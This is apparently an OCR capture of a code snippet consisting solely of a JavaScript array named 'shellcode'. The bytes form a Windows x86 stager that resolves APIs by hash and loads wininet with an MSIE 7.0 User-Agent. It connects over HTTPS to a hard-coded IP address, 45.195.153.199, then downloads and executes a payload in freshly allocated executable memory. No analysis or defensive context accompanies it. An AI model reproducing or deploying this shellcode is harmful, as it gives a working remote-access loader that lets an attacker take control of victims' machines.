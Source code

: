     var shellcode = [ 0xfc, 0xe8, 0x89, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xd2, 0x64, 0x8b, 0x52, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf0, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x42, 0x3c, 0x01, 0xd0, 0x8b, 0x40, 0x78, 0x85, 0xc0, 0x74, 0x4a, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x8b, 0x58, 0x20, 0x01, 0xd3, 0xe3, 0x3c, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0x31, 0xc0, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf4, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe2, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x58, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x86, 0x5d, 0x68, 0x6e, 0x65, 0x74, 0x00, 0x68, 0x77, 0x69, 0x6e, 0x69, 0x54, 0x68, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0xe8, 0x00, 0x00, 0x00, 0x00, 0x31, 0xff, 0x57, 0x57, 0x57, 0x57, 0x57, 0x68, 0x3a, 0x56, 0x79, 0xa7, 0xff, 0xd5, 0xe9, 0xa4, 0x00, 0x00, 0x00, 0x5b, 0x31, 0xc9, 0x51, 0x51, 0x6a, 0x03, 0x51, 0x51, 0x68, 0xcb, 0x28, 0x00, 0x00, 0x53, 0x50, 0x68, 0x57, 0x89, 0x9f, 0xc6, 0xff, 0xd5, 0x50, 0xe9, 0x8c, 0x00, 0x00, 0x00, 0x5b, 0x31, 0xd2, 0x52, 0x68, 0x00, 0x32, 0xc0, 0x84, 0x52, 0x52, 0x52, 0x53, 0x52, 0x50, 0x68, 0xeb, 0x55, 0x2e, 0x3b, 0xff, 0xd5, 0x89, 0xc6, 0x83, 0xc3, 0x50, 0x68, 0x80, 0x33, 0x00, 0x00, 0x89, 0xe0, 0x6a, 0x04, 0x50, 0x6a, 0x1f, 0x56, 0x68, 0x75, 0x46, 0x9e, 0x86, 0xff, 0xd5, 0x5f, 0x31, 0xff, 0x57, 0x57, 0x6a, 0xff, 0x53, 0x56, 0x68, 0x2d, 0x06, 0x18, 0x7b, 0xff, 0xd5, 0x85, 0xc0, 0x0f, 0x84, 0xca, 0x01, 0x00, 0x00, 0x31, 0xff, 0x85, 0xf6, 0x74, 0x04, 0x89, 0xf9, 0xeb, 0x09, 0x68, 0xaa, 0xc5, 0xe2, 0x5d, 0xff, 0xd5, 0x89, 0xc1, 0x68, 0x45, 0x21, 0x5e, 0x31, 0xff, 0xd5, 0x31, 0xff, 0x57, 0x6a, 0x07, 0x51, 0x56, 0x50, 0x68, 0xb7, 0x57, 0xe0, 0x0b, 0xff, 0xd5, 0xbf, 0x00, 0x2f, 0x00, 0x00, 0x39, 0xc7, 0x75, 0x07, 0x58, 0x50, 0xe9, 0x7b, 0xff, 0xff, 0xff, 0x31, 0xff, 0xe9, 0x91, 0x01, 0x00, 0x00, 0xe9, 0xc9, 0x01, 0x00, 0x00, 0xe8, 0x6f, 0xff, 0xff, 0xff, 0x2f, 0x72, 0x61, 0x31, 0x58, 0x00, 0xe2, 0x26, 0x9e, 0x3e, 0x30, 0xe8, 0xbe, 0xf9, 0x07, 0x26, 0x0c, 0xb7, 0x29, 0xcf, 0x9f, 0x0c, 0x71, 0x33, 0x42, 0x56, 0x55, 0x84, 0x12, 0x2d, 0x72, 0x24, 0x7d, 0x1c, 0xc6, 0xfe, 0x08, 0x22, 0xb5, 0x2b, 0x9a, 0xcb, 0x7b, 0x3e, 0x85, 0x07, 0xb8, 0xfc, 0xa4, 0x88, 0xe9, 0xe9, 0xae, 0x3f, 0x73, 0xaf, 0xe0, 0xca, 0x08, 0x0b, 0x12, 0x3a, 0xe9, 0x74, 0x31, 0x19, 0x8a, 0x58, 0xa4, 0xc5, 0xfb, 0x90, 0x80, 0xd5, 0xe8, 0x04, 0xbb, 0x71, 0x2b, 0x00, 0x55, 0x73, 0x65, 0x72, 0x2d, 0x41, 0x67, 0x65, 0x6e, 0x74, 0x3a, 0x20, 0x4d, 0x6f, 0x7a, 0x69, 0x6c, 0x6c, 0x61, 0x2f, 0x34, 0x2e, 0x30, 0x20, 0x61, 0x74, 0x69, 0x62, 0x6c, 0x65, 0x3b, 0x20, 0x4d, 0x53, 0x49, 0x45, 0x20, 0x37, 0x2e, 0x30, 0x3b, 0x20, 0x57, 0x69, 0x6e, 0x64, 0x6f, 0x77, 0x73, 0x20, 0x4e, 0x54, 0x20, 0x35, 0x2e, 0x31, 0x3b, 0x20, 0x2e, 0x4e, 0x45, 0x54, 0x20, 0x43, 0x4c, 0x52, 0x20, 0x32, 0x2e, 0x30, 0x2e, 0x35, 0x30, 0x37, 0x32, 0x37, 0x29, 0x0d, 0x0a, 0x00, 0x5c, 0x06, 0x71, 0x87, 0x72, 0x72, 0xb2, 0x05, 0x6b, 0x32, 0x1e, 0xcf, 0x09, 0x1a, 0x41, 0x36, 0xba, 0x6d, 0xe1, 0x1e, 0xe2, 0x4f, 0x33, 0xc8, 0x96, 0xc0, 0x8a, 0x6e, 0x3f, 0x34, 0x89, 0xbc, 0x44, 0x4c, 0x53, 0xf8, 0xb4, 0x8b, 0xe5, 0x88, 0x1b, 0x84, 0x78, 0x30, 0xe7, 0x1e, 0x1b, 0xde, 0xb8, 0x2b, 0x50, 0x77, 0x17, 0x3e, 0x15, 0xb4, 0x7a, 0x61, 0x1c, 0xde, 0xb9, 0x78, 0x67, 0x81, 0x91, 0x5f, 0x2a, 0x9b, 0x7a, 0x7a, 0xc4, 0xd4, 0x6d, 0xb4, 0x69, 0xdf, 0xa3, 0xb8, 0xf4, 0x18, 0x26, 0x50, 0x66, 0x88, 0xbd, 0xf7, 0x5c, 0xfc, 0xb6, 0xfd, 0xd2, 0x63, 0xe5, 0x16, 0x79, 0x1a, 0x10, 0x13, 0xfa, 0x15, 0xb8, 0x96, 0x58, 0x5b, 0x7e, 0x1e, 0xd2, 0xd9, 0x4b, 0xe9, 0xb6, 0x4a, 0x58, 0xa6, 0x93, 0x7f, 0xb6, 0x41, 0xc8, 0xd6, 0x2a, 0xb4, 0x0b, 0x15, 0xb9, 0xb7, 0xe6, 0xef, 0xd6, 0xca, 0xc7, 0xf0, 0x30, 0xbd, 0xef, 0xcf, 0x2d, 0x63, 0x61, 0x03, 0xf3, 0x49, 0x3b, 0x88, 0x72, 0x66, 0x23, 0x22, 0xb8, 0x91, 0x8d, 0xb8, 0xb2, 0x4f, 0x21, 0xaf, 0x93, 0x5c, 0x5a, 0x67, 0x12, 0xb5, 0xa7, 0x06, 0xa8, 0xde, 0xf7, 0xe5, 0x41, 0xca, 0x50, 0x47, 0xcc, 0x84, 0xb9, 0x6b, 0x05, 0x09, 0x83, 0x1a, 0xa7, 0xa1, 0x3a, 0x03, 0x75, 0x60, 0xf5, 0xf4, 0xba, 0x08, 0x02, 0x99, 0x8e, 0xfa, 0xc8, 0x72, 0xf5, 0xdc, 0x9b, 0x46, 0xda, 0x5a, 0xbf, 0x1e, 0x13, 0x11, 0xf8, 0xfa, 0x92, 0x28, 0x23, 0x70, 0xd0, 0x79, 0x96, 0x19, 0x8c, 0x38, 0x00, 0x68, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x6a, 0x40, 0x68, 0x00, 0x10, 0x00, 0x00, 0x68, 0x00, 0x00, 0x40, 0x00, 0x57, 0x68, 0x58, 0xa4, 0x53, 0xe5, 0xff, 0xd5, 0x93, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x01, 0xd9, 0x51, 0x53, 0x89, 0xe7, 0x57, 0x68, 0x00, 0x20, 0x00, 0x00, 0x53, 0x56, 0x68, 0x12, 0x96, 0x89, 0xe2, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0xc6, 0x8b, 0x07, 0x01, 0xc3, 0x85, 0xc0, 0x75, 0xe5, 0x58, 0xc3, 0xe8, 0x89, 0xfd, 0xff, 0xff, 0x34, 0x35, 0x2e, 0x31, 0x39, 0x35, 0x2e, 0x31, 0x35, 0x33, 0x2e, 0x31, 0x39, 0x39, 0x00, 0x6f, 0xaa, 0x51, 0xc3 ];
    